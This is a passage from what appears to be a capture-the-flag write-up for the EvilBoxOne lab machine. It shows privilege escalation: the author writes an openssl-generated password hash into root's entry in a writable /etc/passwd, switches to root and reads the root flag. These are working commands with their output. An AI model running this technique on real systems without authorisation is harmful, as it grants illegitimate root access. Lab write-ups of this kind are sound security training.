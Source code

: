 ```console
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
```

Specifically were interested in:
```console
root:x:0:0:root:/root:/bin/bash
```

The “x” in a row represents that the hash of the password of the user is stored in the /etc/shadow file. Since we can manually edit this file let's replace the "x" with a hashed password "leftycatchersmitt" for the user root.

```console
mowree@EvilBoxOne:/dev/shm$ openssl passwd -1 leftycatchersmitt
$1$4RWl6sXT$QAi/le7cM92rCosqbOfvN/
mowree@EvilBoxOne:/dev/shm$ nano /etc/passwd
GNU nano 3.2                                                              /etc/passwd                                                                                                                 

root:$1$4RWl6sXT$QAi/le7cM92rCosqbOfvN/:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
...
```

Now we should be able to log in as the user root.

```console
mowree@EvilBoxOne:/dev/shm$ su -l root
Contraseña: 
root@EvilBoxOne:/dev/shm# whoami
root
root@EvilBoxOne:~# id
uid=0(root) gid=0(root) grupos=0(root)
root@EvilBoxOne:/dev/shm# cd /root
root@EvilBoxOne:/root# ls -lash
total 24K
4,0K drwx------  3 root 4,0K ago 16 13:06 .
4,0K drwxr-xr-x 18 root 4,0K ago 16 11:16 ..
   0 lrwxrwxrwx  1 root    9 ago 16 13:06 .bash_history -> /dev/null
4,0K -rw-r--r--  1 root 3,5K ago 16 11:20 .bashrc
4,0K drwxr-xr-x  3 root 4,0K ago 16 11:40 .local
4,0K -rw-r--r--  1 root  148 ago 17  2015 .profile
4,0K -r--------  1 root   31 ago 16 12:57 root.txt
root@EvilBoxOne:/root# cat root.txt
36QtXfdJWvdC0VavlPIApUbDlqTsBM
```

We got root! Success! 
